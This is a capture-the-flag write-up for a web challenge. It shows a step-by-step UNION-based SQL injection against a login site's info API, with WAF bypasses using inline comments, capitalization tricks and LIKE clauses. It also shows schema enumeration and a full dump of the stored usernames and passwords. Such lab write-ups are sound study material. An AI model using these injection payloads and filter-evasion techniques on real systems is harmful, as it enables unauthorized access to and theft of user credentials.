

# Get Me
**Category: Web**
> All secrets belongs to the admin

We kick things off with a login page:



Viewing the page source shows: 
```html
<!--==================Delete this line: julia.2468@gmail.com:just4julia============================-->
```

We can use these credentials to login and view a profile page. The relevant portion of the page (will be clear why later) is the contact information:


When we look at the network requests made to load this page, we see this api request:
```http
GET /home/getinfo.php?input=Julia HTTP/2
```
Which returns:
```http
HTTP/2 200 OK

julia.2468@gmail.com
```

This email value gets put into the contact email field. The server is likely running something like:
```sql
SELECT * FROM users WHERE username = {}
```

We can attempt a SQL injection with this API.

```http
GET /home/getinfo.php?input='+UNION+SELECT+'1 HTTP/2
```

Interestingly, the API responded with:
```
Hack Detected ....
```

It looks like we are on the right track, but there is a WAF in place to stop us from injecting. I assumed it was blocking spaces, and replaced my spaces with comments.

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/'1 HTTP/2
```

This time around, there was no "hack detected" banner. No results were returned though, likely because the union had the wrong number of columns in it. I added more columns until the API returned data again:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/'1','2','3 HTTP/2
```

```http
HTTP/2 200 OK

1
```

We can see the `1` is returned in our result. Next I queried to find out what kind of database we were dealing with:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/version(),'2','3 HTTP/2
```

```http
HTTP/2 200 OK

10.3.23-MariaDB-0+deb10u1
```

The next step is to figure out what schemas are in the database. The following query will list all the schemas. Note that the `%23` is a `#` line comment that is url encoded.

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/concat(schema_name,"\n"),2,3/**/FROM/**/information_schema.schemata%23 HTTP/2
```

This returned the hack detected banner. It turns out the words `information` and `schema` are on a blacklist too. We can bypass this with capitalization:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/concat(SCHEMA_name,"\n"),2,3/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA%23 HTTP/2
```

```http
HTTP/2 200 OK

information_schema
performance_schema
mysql
test
```

`test` looks good. Let's find the tables now. It turnes out the `=` operator was also blocked, and I had to instead use a `LIKE` clause:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/concat(TABLE_NAME,"\n"),2,3/**/FROM/**/INFORMATION_SCHEMA.TABLES/**/WHERE/**/TABLE_SCHEMA/**/LIKE/**/'test'%23 HTTP/2
```

```http
HTTP/2 200 OK

users
```

For the last bit of information gathering, we can get the columns:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/concat(COLUMN_NAME,"\n"),2,3/**/FROM/**/INFORMATION_SCHEMA.COLUMNS/**/WHERE/**/TABLE_NAME/**/LIKE/**/'users'/**/AND/**/TABLE_SCHEMA/**/LIKE/**/'test'%23 HTTP/2
```

```http
HTTP/2 200 OK

email
username
password
```

Finally, let's get all the login information:

```http
GET /home/getinfo.php?input='/**/UNION/**/SELECT/**/concat(username,":",password,"\n"),2,3/**/FROM/**/users%23 HTTP/2
```

```http
Admin:FLAG{I_L0v3_J$_r3q_&_Sqli}
Julia:just4julia
```

`FLAG{I_L0v3_J$_r3q_&_Sqli}`